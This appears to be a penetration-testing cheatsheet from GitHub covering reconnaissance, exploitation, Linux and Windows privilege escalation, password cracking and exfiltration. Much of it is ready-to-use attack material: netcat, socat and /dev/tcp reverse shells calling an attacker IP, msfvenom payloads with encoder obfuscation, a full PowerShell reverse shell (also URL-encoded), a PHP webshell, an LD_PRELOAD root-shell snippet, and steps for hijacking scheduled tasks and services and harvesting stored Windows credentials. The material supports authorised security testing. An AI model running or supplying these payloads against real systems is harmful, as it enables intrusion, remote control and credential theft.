

# 2024 Penetration Testing Cheatsheet

## Table of Contents

**1. [Other Cheatsheets/Libraries](#1-other-cheatsheetslibraries)**

**2. [General Tools](#2-general-tools)**

* [Tools](#tools)
* [Wordlists](#wordlists)

**3. [Information Gathering](#3-information-gathering)**

* [useful links](#useful-links)
* [Passive](#passive)
    * [OSINT](#osint)
* [Active](#active)
* [Others & Combined](#others--combined)
    * [Nmap](#nmap)
* [Other Tipps](#other-tipps)

**4. [Vulnerability Scanner](#4-vulnerability-scanner)**

* [Databases](#databases)

**5. [Exploitation](#5-exploitation)**

* [Reverse Shell useful links](#reverse-shells-useful-links)
* [Netcat](#netcat)
* [Socat](#socat)
* [Metasploit](#metasploit)
* [Msfvenom](#msfvenom)
* [Powershell one-liner](#powershell-one-liner)
* [PHP Webshell one-liner](#php-webshell-one-liner)

**6. [Linux Privilege Escalation](#6-linux-privilege-escalation)**

**7. [Windows Privilege Escalation](#7-windows-privilege-escalation)**

**8. [Password/Hash Cracking](#8-passwordhash-cracking)**

* [useful links](#useful-links-1)
* [Hashcat](#hashcat)
* [John the Ripper](#john-the-ripper)
* [Hydra](#hydra)

**9. [Exfiltration](#9-exfiltration)**

* [Server](#server)

**10. [Persistence](#10-persistence)**

**11. [Cleanup](#11-cleanup)**


## 1. Other Cheatsheets/Libraries:
[Lolbas-Project](https://lolbas-project.github.io/)

[Ivan-Sincek Penetration testing cheat sheet (very detailed)](https://github.com/ivan-sincek/penetration-testing-cheat-sheet)

[GTFOBins](https://gtfobins.github.io/)

[MITRE ATT&CK](https://attack.mitre.org/)

## 2. General Tools:

### Tools

[CyberChef](https://gchq.github.io/CyberChef/)

### Wordlists:

https://github.com/danielmiessler/SecLists

## 3. Information Gathering:

### useful links:

[OWASP favicon Database](https://wiki.owasp.org/index.php/OWASP_favicon_database)

[List of portnumbers with common protocols](https://de.wikipedia.org/wiki/Liste_der_Portnummern)

Default Password Databases:

* https://www.defaultpassword.com/
* https://cirt.net/passwords
* https://datarecovery.com/rd/default-passwords/
* https://redoracle.com/PasswordDB/vpasp.html

### Passive:

[Shodan](https://www.shodan.io/)

[Smap (Nmap but passive -> same syntax)](https://github.com/s0md3v/Smap)

[Wayback Machine](https://web.archive.org/)

Pingsweep:
```bash
#!/bin/bash

for ip in $(seq 0 250) ; do
#echo <>.<>.<>.$ip
ping -c <>.<>.<>.$ip |grep "bytes from" |cut -d" " -f 4 |cut -d ":" -f 1 &
done
```
Domain Enumeration:

`whois <domain_name>`
```
nslookup <domain_name> <dns_server(local/public)(optional)>
    -type 
        A       IPv4 Addresses
        AAAA    IPv6 Addresses
        CNAME   Canonical Name
        MX      Mail Servers
        SOA     Start of Authority
        TXT     TXT Records
```
Subdomain Enumeration:

[DNSdumpster](https://dnsdumpster.com/)

[Sublist3r](https://github.com/aboul3la/Sublist3r)
```
./sublist3r.py -d <domain>
```
SSL/TLS Certificates etc.:

https://crt.sh/

https://ui.ctsearch.entrust.com/ui/ctsearchui

[SSL Server Test](https://www.ssllabs.com/ssltest/)
        
-> detailed information about certificate, configuration(protocols, cipher suites, protocol handshake)

#### OSINT:

[OSINT-Framework](https://github.com/Ignitetechnologies/Mindmap/blob/main/OSINT/OSINT%20Framework.pdf)

[awesome-osint](https://github.com/jivoi/awesome-osint)

-> overview of every OSINT topic with tools/websites

[SpiderFoot - OSINT Automation Tool](https://github.com/smicallef/spiderfoot)

[Social Searcher](https://www.social-searcher.com/)

[Security Headers](https://securityheaders.com/)

[Wappanalyzer](https://www.wappalyzer.com/)

[WPscan - Website](https://wpscan.com/#solutions)

#### Google Dorking:

-> [use the google advanced search](https://www.google.com/advanced_search)

[dorksearch](https://dorksearch.com/)

[Google Hacking Database (Exploit Database)](https://www.exploit-db.com/google-hacking-database)

### Active:

#### ffuf:
```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u <url>/FUZZ  
```
#### dirb:
```
dirb <url> /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt   
```
#### gobuster:
```
gobuster dir --url <url> -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt   
```
Domain Enumeration:
```
dig @<server> <domain_name> <type>
    server -> optional
    type -> see nslookup
```

### Others & Combined:

DNS enumeration: 
```
dnsrecon -d <domain> [options]  
```
#### Nmap:
```
nmap <scan_type> <options> <machine_ip/network>

    Scan types:
        -PR     ARP Scan
        -PE     ICMP Echo Scan
        -PP     ICMP Timestamp Scan
        -PM     ICMP Address Mask Scan
        -PS     TCP SYN Ping Scan
        -PA     TCP ACK Ping Scan
        -PU     UDP Ping Scan
        
        -sT     TCP Connect Scan
        -sS     TCP SYN Scan
        -sU     UDP Scan
        
        -sN     TCP Null Scan
        -sF     TCP FIN Scan
        -sX     TCP Xman Scan
        -sM     TCP Maimon Scan
        -sA     TCP ACK Scan
        -sW     TCP Window Scan
    
        -S <spoofed_ip> <maching_ip>    Spoofed Source IP
        --spoof-mac <spoofed_mac>       Spoofed MAC-Address
        - D <decoy_ip>,me <machine_ip>  Decoy Scan
        -sI <zombie_ip> <machine_ip>    Idle(Zombie) Scan

    Options:
        -n      no DNS lookup
        -R      reverse-DNS lookup for all hosts
        -sn     host discovery only

        Port Options:
            -p-                             scans all ports
            -p                              specify ports to scan
            -p1-1023                        scan ports 1 to 1023
            -F                              scan 100 most common ports
            -r                              scan ports in consecutive order
            --source-port <port_number>    specify port number

        Scan Speed/Detection avoidance:
            -T<0-5>                         adjust speed of port scanning
            --max-rate <number> rate        <= <number> packets/sec
            --min-rate <number> rate        >= <number> packets/sec
            --min-parallelism <number>      at least <number> of probes in parallel
            -f                              Fragment IP into 8 bytes
            -ff                             Fragment IP into 16 bytes
            --data-length <number>          append random data to reach given length
        
        Verbosity/General:
            --reason                explains how nmap made its conclusion
            -v                      verbose
            -vv                     very verbose
            -d                      debugging
            -dd                     more details for debugging
            -sV                     service detection (doesn't work with scan type -sS)
            -sV --version-light     intensity level 2
            -sV --version-all       intensity level 9
            -O                      detect OS
            --traceroute            run traceroute to target
            --script=<SCRIPTS>      nmap scripts to run
            -sC / --script=default  run default scripts
            -A                      equivalent to -sV -O -sC --traceroute

            Script Categories: https://nmap.org/book/nse-usage.html#nse-category-auth

        Output Options:
            -oN     save output in normal format
            -oG     save output in grepable format
            -oX     save output in XML format
            -oA     save output in normal,XML and Grepable format
```

### Other Tipps:

* change `etc/hosts` if domain is not available/gets redirected
* Banner Grabbing with nc `nc -vn <ip> <port>`

## 4. Vulnerability Scanner:

[Nessus Essential Download](https://community.tenable.com/s/article/Nessus-Essentials?language=en_US)

### Databases:

[Nist](https://community.tenable.com/s/article/Nessus-Essentials?language=en_US)

[CVEdetails](https://www.cvedetails.com/)

[Exploit-DB](https://www.exploit-db.com/)

[Rapid7](https://www.rapid7.com/db/)

## 5. Exploitation:

### Reverse Shells useful links:
https://github.com/martinsohn/PowerShell-reverse-shell

https://www.revshells.com/

https://github.com/samratashok/nishang/tree/master

[PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### Netcat:
Reverse Shell:
```
    A: nc -lnvp <port_number>

    T: nc <local_ip> <port_number> -e /bin/bash
```
Bind Shell:
```
    T: nc -lnvp <port_number> -e "cmd.exe"

    A: nc <local_ip> <port_number>
```
Shell Stabilisation:

    1. Python (sometimes need to specify python version in first cmd)
        python -c 'import pty;pty.spawn("/bin/bash")'
        export TERM=xterm
        Ctrl + Z
        stty raw -echo; fg

    2. Rlwrap
        install rlwrap first on your kali:
        sudo apt install rlwrap

        invoke this listener:
            rlwrap nc -lnvp <port_number>
            CTRL + Z
            stty raw -echo; fg

    3. Socat
        1. Start Webserver on attacker machine(with Socat installed) in the directory of the binary.
            sudo python -m http.server <port>
        2. Use the Netcat reverse shell to download Socat.
            Linux: wget <attack_ip>/socat -o /tmp/socat
            Powershell: Invoke-WebRequest -uri <attack_ip>/socat.exe -outfile C:\\Windows\temp\socat.exe 
        3. Check permissions and execute socat.
    
    General Adjustments:
        open terminal on own machine and use 'stty -a'
        check in the output the values for rows and columns
        use 'stty rows <number>' and 'stty cols <number>' on rev/bind shell

Other things:
```
    Listener: mkfifo /tmp/f; nc -lvnp <port> < /tmp/F | /bin/sh >/tmp/f 2>&1; rm /tmp/f

    Rev-Shell: mkfifo /tmp/f; nc <attack_ip> <port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f 
```

### Socat:

Reverse Shell (normal):
```
unstable version

    A: socat TCP-L:<port> -

    T-Linux: socat TCP:<attack_ip>:<port_number> EXEC:"bash -li"

    T-Windows: socat TCP:<attack_ip>:<port_number> EXEC:powershell.exe,pipes

stable(only for Linux Target with socat installed/possible to upload precompiled binary aswell)

    A: socat TCP-L:<port_number> FILE:`tty`,raw,echo=0

    T: socat TCP:<attack_ip>:<port_number> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
Bind Shell (normal):
```
unstable version

    T-Linux: socat TCP-L:<port_number> EXEC:"bash -li"

    T-Windows: socat TCP-L:<port_number> EXEC:powershell.exe;pipes

    A: socat TCP:<target_ip>:<target_port> -
```

Create Certificate:
```
    openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
    cat shell.key shell.crt > shell.pem
```
Reverse Shell (encrypted):
```
    A: socat OPENSSL-LISTEN:<port_number>,cert=shell.pem,verify=0 -

    T: socat OPENSSL:<attack_ip>:<port_number>,verify=0 EXEC:/bin/bash
```
Bind Shell (encrypted):
```
Example for Windows

    T: socat OPENSSL-LISTEN:<port_number>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

    A: socat OPENSSL:<target_ip>:<port_number>,verify=0 -
```
### Metasploit:



### Msfvenom:

use `exploit/multi/handler` to catch rev-shells

Default:
```
    msfvenom -p <PAYLOAD> <OPTIONS>
        -f <format> -> output format
        -o <file> -> output location and filename
        LHOST=<IP>
        LPORT=<port_number>

    payload naming convention: <OS>/<arch>/<payload>

        staged: denoted with forward slah -> shell/reverse_tcp
        stageless: denoted with _  -> shell_reverse_tcp
```
Linux:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<port_number> -f elf > rev_shell.elf
```

Windows:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<port_number> -f exe > rev_shell.exe
```
PHP:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<attack_ip> LPORT=<port_number> -f raw > rev_shell.php
```
ASP:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<port_number> -f asp > rev_shell.asp
```
Python:
```
msfvenom -p cmd/unix/reverse_python LHOST=<attack_ip> LPORT=<port_number> -f raw > rev_shell.py

msfvenom -p python/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f raw > rev_shell.py
```
other usecases:
```
add msfvenom shell into an executable
    add options:
        -x <path_to_exe>
        -k

obfuscation:
    add option(example with "Shikata Ga Nai"):
        -e x86/shikata_ga_nai
```
### Powershell one-liner:
````powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.
GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCI
````
````powershell
powershell -c “$client = New-Object System.Net.Sockets.TCPClient(‘<ip>’,<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ‘PS ‘ + (pwd).Path + ‘> ‘;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()”
````

### PHP Webshell one-liner:
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

need to trigger rev-shell -> find upload folder -> add to url-path `http://<ip>/<path>/php_shell.php?cmd=<rev_shell>`

## 6. Linux Privilege Escalation:

### useful links:

[HackTricks - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

### Tools:

[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

[LinEnum](https://github.com/rebootuser/LinEnum)

[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)

[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

### manual Enumeration:

`hostname`  

`uname -a` (additional info about the kerne)

`cat /etc/os-release`

`cat /etc/issue`

`id` (can also be used to check id for other users)

`whoami`
```
ps          
    -A      view all running processes
    aux     a = show processes for all users
            u = show who launched process
            x = show processes not attached to terminal
    axjf    view process tree
```
`env`

`ifconfig`

`cat /etc/passwd`

`cat /etc/passwd | cut -d ":" -f 1` (convert PW file into brute-forcable list)

`cat history`

```
netstat
    -a      show all listening ports
    -at     show tcp ports
    -au     show udp ports
    -l      list ports in listening mode (can be used with -t option)
    -s      show network usage statisticsby protocol (can be used with -t/-u option)
    -tp     show conncetions with service name and PID (can be used with -l option)
    -i      show interfaces
    -ano
        -a  display all sockets
        -n  do not resolve names
        -o  display timers
```

```
find / -type d -name config             find the directory named config under “/”
find / -type f -perm 0777               find files with the 777 permissions
find / -perm a=x                        find executable files
find /home -user frank                  find all files for user “frank” under “/home”
find / -mtime 10                        find files that were modified in the last 10 days
find / -atime 10                        find files that were accessed in the last 10 day
find / -cmin -60                        find files changed within the last hour (60 minutes)
find / -amin -60                        find files accesses within the last hour (60 minutes)
find / -size 50M                        find files with a 50 MB size

find / -writable -type d 2>/dev/null    Find world-writeable folders
find / -perm -222 -type d 2>/dev/null   Find world-writeable folders
find / -perm -o w -type d 2>/dev/null   Find world-writeable folders

find / -perm -o x -type d 2>/dev/null   Find world-executable folders

find / -name perl*                      Find development tools and supported languages
find / -name python*                    Find development tools and supported languages
find / -name gcc*                       Find development tools and supported languages
```
`unshadow passwd.txt shadow.txt > passwords.txt`
#### Sudo:
`sudo -l` and check [GTFOBins](https://gtfobins.github.io/)

Leverage LD_Preload (if env_keep+=LD_PRELOAD is set):
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

#### Suid:

`find / -type f -perm -04000 -ls 2>/dev/null`

`find / -perm -u=s -type f 2>/dev/null`

#### Capabilities:
`getcap -r / 2>/dev/null`

#### Cron Jobs:
`cat /etc/crontab`

example script:
```
#! /bin/bash

bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

#### PATH:
`echo $PATH`

`find / -writable 2>/dev/null`

`find / -writable 2>/dev/null | cut -de "/" -f 2 | sort -u`

`find / -writable 2>/dev/null | cut -de "/" -f 2,3 | grep -v proc | sort -u`

add /tmp folder to path: `export PATH=/tmp:$PATH`

run path: `./path`

#### NFS:
```
showmount -e <ip

A:  mkdir /tmp/<directory>
    mount -o rw <ip>:<mount_option_from list> /tmp<created_directory>
    cd into directory
    create executable and compile it with gcc <name>.c -o <name> -w
    add Suid bit chmod +s <name>
T:  execute
```

## 7. Windows Privilege Escalation:

### useful Links:

[PayloadAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[HackTricks - Windows Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

[Priv2 Admin (Overview Windows Privileges)](https://github.com/gtworek/Priv2Admin)

[Potatoes - Windows Privilege Escalation](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#sweetPotato)

[RogueWinRM](https://github.com/antonioCoco/RogueWinRM)

[Decoder Blog (further education)](https://decoder.cloud/)
### Tools:

1. [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

2. [PrivescCheck](https://github.com/itm4n/PrivescCheck)

    We need to bypass Execution Policy in order to run this tool.

    ```powershell
        Set-ExecutionPolicy Bypass -Scope process -Force
        . .\PrivescCheck.ps1
        Invoke-PrivescCheck
    ```
3. [WES-NG (Windows Exploit Suggester - Next Generation)](https://github.com/bitsadmin/wesng)

    Before use run `wes.py --update` to update database and run `systeminfo > systeminfo.txt` on target system.
    Then WES-NG can be used with `wes.py systeminfo.txt`.

4. Metasploit
    
    Use the `multi/recon/local_exploit_suggester` module.

### manual Enumeration:

#### Usual Spots:

1. Unattended Windows Installations
    - C:\Unattend.xml
    - C:\Windows\Panther\Unattend.xml
    - C:\Windows\Panther\Unattend\Unattend.xml
    - C:\Windows\system32\sysprep.inf
    - C:\Windows\system32\sysprep\sysprep.xml

2. Powershell history
    
    cmd.exe: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
    
    Powershell: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

3. Saved Windows Credentials:

    `cmdkey /list` -> `runas /savecred /user:<username> cmd.exe`

4. IIS:
    - C:\inetpub\wwwroot\web.config
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

    `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

5. Retrieve Credentials over PuTTY: 

    `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

#### Scheduled Tasks:
    Overview: schtasks
    Detailed view: schtasks /query /tn <task_name> /fo list /v
    Check if executable can be modifyed by us: icasl <executable-path>
    Modify Task: echo c:\tools\nc64.exe -e cmd.exe <attacker_ip> <port> > <old_executable_path>
    Run task immediately: schtasks /run /tn <task_name>

#### Windows Services:
    List Services:
        services.msc
        cmd.exe:    sc queryex type= service state= all
        Powershell: Get-Service
    View details:   sc qc <service_name>
    Check permissions: icals <executable_path>
    Start/Stop Service: sc start/stop <service>

    insecure service permissions:
        icacls <executable path(rev-shell)> /grant Everyone:F
        sc config <service> binPath= "<executable path(rev-shell)>" obj= LocalSystem

    in Powershell replace sc with sc.exe

#### Windows Privileges:

`whoami /priv`

After fake RogueWinRM service is running:

`c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"`

#### unpatched Software:

`wmic product get name,version,vendor`

## 8. Password/Hash Cracking:

### useful links:

https://crackstation.net/

[Hash-identifier](https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py)

[RegEx expressions & bash scripts for PW cracking](https://www.unix-ninja.com/p/A_cheat-sheet_for_password_crackers)

### [Hashcat](https://hashcat.net/wiki/):

```
hashcat 

options:
    -m                  hash-type
            https://hashcat.net/wiki/doku.php?id=example_hashes
    -a                  attack-mode
            0   Straight
            1   Combination
            3   Brute Force
            6   Hybrid Wordlist + Mask
            7   Hybrid Wordlist + Wordlist
            9   Assosiation
            
    --force             ignore warnings
    --runtime           abort session after X seconds of runtime
    --status            enable automatic update of the status screen
    -o                  define outfile for recovered hash
    --show              show cracked passwords found in potfile
    --session           define specific session name exp.:--session=session1
    --restore           restore session from --session
    --restore-file-path specific path to restore lenghts
    -O                  enable optimized kernels


```

### John the Ripper:
https://www.openwall.com/john/
````


single crackmode:

custom crack rules:

zip-files:  zip2john <zip_file> > <zip_hash>

rar-files:  rar2john <rar_archive> > <rar_hash>

ssh-keys:   ssh2john <>

````

### Hydra:
https://github.com/vanhauser-thc/thc-hydra
````
hydra -l <username> -P <wordlist.txt> <server> <service>

    Options:
        -l                  provide login name
        -P                  specify password list
        server service      set server address and service to attack
        -s <port_number>    use in case of non-default port number of service
        -V / -vV            show tried username&password combinations
        -d                  display debugging output
        -t <number>         specify number of parallel connections (e.g. -t 16)
````

## 9. Exfiltration:

### Server:

SCP:
```
copy a file from local to remote server: scp <local_file_path> <username>@<ip>:<save_to_file_path>

copy file from remote server to local host: scp <ip>:<remote_file_path> <local_save_path>


copy directory: scp -r <directory> <username>@<ip>:<path_to_remote_directory>
```
## 10. Persistence:

## 11. Cleanup: